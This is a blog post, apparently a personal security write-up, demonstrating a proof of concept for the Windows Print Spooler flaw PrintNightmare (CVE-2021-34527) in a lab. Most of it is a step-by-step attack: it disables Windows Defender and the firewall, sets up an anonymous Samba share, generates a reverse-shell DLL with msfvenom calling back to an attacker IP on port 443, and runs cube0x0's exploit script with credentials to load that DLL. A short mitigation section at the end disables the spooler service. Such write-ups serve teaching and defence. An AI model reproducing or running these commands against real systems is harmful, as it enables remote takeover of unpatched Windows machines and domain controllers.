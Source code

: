 ```yaml
---
title: PrintNightmare PoC - (CVE-2021-34527)
author: vinay
date: 2021-07-05
categories: [PoC]
tags: [Windows, PoC]
pin: true
math: true
mermaid: true
#image:
  #path: #/commons/devices-mockup.png
  #lqip: #data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  #alt: #Responsive rendering of Chirpy theme on multiple devices.
---
```


This is a short take relating to the recent spooler bug that was discovered in the windows environment, marked by CVE-2021-34527. This flaw is proven to be exploited to achieve remote code execution on windows environments that has not disabled this service and is kept up and running.

## About CVE-2021-34527

[CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) was discovered by [researcher](https://twitter.com/edwardzpeng?lang=en), this flaw was initially classified as a Low severity vulnerability which can only be exploited for Privilege Escalation. But on June 21, 2021 the severity was changed to Critical as it was discovered that this bug allows authenticated remote code execution.

By taking advantage of this flaw an attacker could potentially get System level Administrative access on the Domain Controller in an Active Directory environment which can lead to the take over of the entire network/organisation. Various versions affected are Windows Server (2004, 2008, 2008 R2, 2012, 2012 R2, 2016, 2019, 20H2) and Windows (7, 8.1, RT 8.1, 10).

Windows Print Spooler service is by default enabled with all windows versions and is used to schedule printing jobs, find the printers in the network and so on. It's an old windows component (20+ years) and researchers find bugs in it occasionally. Ten years ago the notorious stuxnet worm that made damages to the nuclear plant in Iran was due to exploiting a similar bug which was embedded in the Windows Spooler service.

Microsoft Windows Print Spooler fails to restrict access to [RpcAddPrinterDriverEx()](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) function, in windows 10 this function can be seen in the snap-in module called printmanagement.msc. The module can be reached via the "Printers and Scanners" available in the settings. In this module by default it allows the operation of management of Print Server which means that a new print server can be added or modified by the current user(Low privileged) in the system.

![image-20210705112432286](/assets/img/CVE-2021-34527/image-20210705112432286.png)

## PoC

This is a replication of the PoC from [Cube0x0](https://github.com/cube0x0/CVE-2021-1675). Credit to [Jaacostan](https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html) for his article which I referred to while creating this PoC of mine. This Proof of Concept demonstration will be confined to Windows 10 environment and the attacking system(Kali Linux). This version of Windows 10 doesn't have the latest patch installed and is running as a Virtual Machine.

Before starting of make sure that Windows Firewall and Defender are disabled. This is because in the later steps we'll be using a generic payload which doesn't have any encoding or defence evasion techniques implemented in it, when this is the case the Windows Defender will detect the payload and flag it as malicious when it's trying to retrieve and execute it from the hosted path in the attackers system.

![image-20210704214647576](/assets/img/CVE-2021-34527/image-20210704214647576.png)

![image-20210704214732860](/assets/img/CVE-2021-34527/image-20210704214732860.png)

Made a note of the Local address of Win10.

![image-20210704214754639](/assets/img/CVE-2021-34527/image-20210704214754639.png)

Set up a samba share with anonymous login enabled on the attacking machine. This is required for hosting the malicious .dll payload. Make changes to the smb.conf file located at /etc/samba/smb.conf. I'd advise to create a backup of this file before making any changes. Add the following lines to the end of the smb.conf configuration file.

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[public]
    comment = Samba
    path = /var/public
    guest ok = yes
    read only = no
    browsable = yes
    force user = root
```

![image-20210704214844003](/assets/img/CVE-2021-34527/image-20210704214844003.png)

Here the share folder is in /var/public. The payload must be hosted here. Folder can be named anything, make sure the name is changed in the configuration file.

Create a folder in /var/ named public if it's not already present

```
sudo mkdir /var/public
```

Provide the necessary permissions

```
sudo chmod 0777 /var/public
```

Restart the samba service for the changes to take effect

```
systemctl restart smbd
```

Install the version of impacket version which is mentinoned in Cube0x0 PoC by the following

```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Make a note of the attacker machine Local IP address.

![image-20210704215959333](/assets/img/CVE-2021-34527/image-20210704215959333.png)

Create the .dll payload using msfvenom.

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=172.16.104.1 LPORT=443 -f dll -o ./revshell.dll
```

![image-20210704215148765](/assets/img/CVE-2021-34527/image-20210704215148765.png)

Copy the revshell.dll to the samba share folder in /var/public.

Clone the exploit file locally from the repository https://github.com/cube0x0/CVE-2021-1675

Now listen on port 443 using Netcat and trigger the exploit.

./CVE-2021-1675.py [domain]/[username]:[password]@target '\\\Location of share'

```
./CVE-2021-1675.py Test:Testrainbow6@172.16.104.129 '\\172.16.104.1\\public\\revshell.dll'
```

![image-20210704215118484](/assets/img/CVE-2021-34527/image-20210704215118484.png)

![image-20210704215206211](/assets/img/CVE-2021-34527/image-20210704215206211.png)

## Mitigation

Microsoft recommends to apply security update patches released on 8th June, 2021, it is also recommended to disable the Print spooler service if not in use.

- Check if spooler service is running

```powershell
Get-Service -Name Spooler
```

- If the service is described as running, perfrom the following-

  a. **Disable the Print spooler service**

  ```powershell
  Stop-Service -Name Spooler -Force

  Set-Service -Name Spooler -StartupType Disabled
  ```

  Note: Disabling the service disables the ability to print locally and remotely

  b. **Disable inbound remote printing through Group Policy**

  Go to Computer Configuration / Administrative Templates / Printers

  Disable the “Allow Print Spooler to accept client connections:” policy to block remote attacks.

  You must restart the Print Spooler service for the group policy to take effect.

  Refer to the this Microsoft article for the workaround (https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-34527)

## Credits

- https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html

- https://github.com/cube0x0/CVE-2021-1675

- https://github.com/JohnHammond/CVE-2021-34527

- https://www.blog.afine.academy/exploit-na-windowsa-10-czyli-eskalacja-przywilejow-made-in-poland/

- https://msandbu.org/printnightmare-cve-2021-1675/
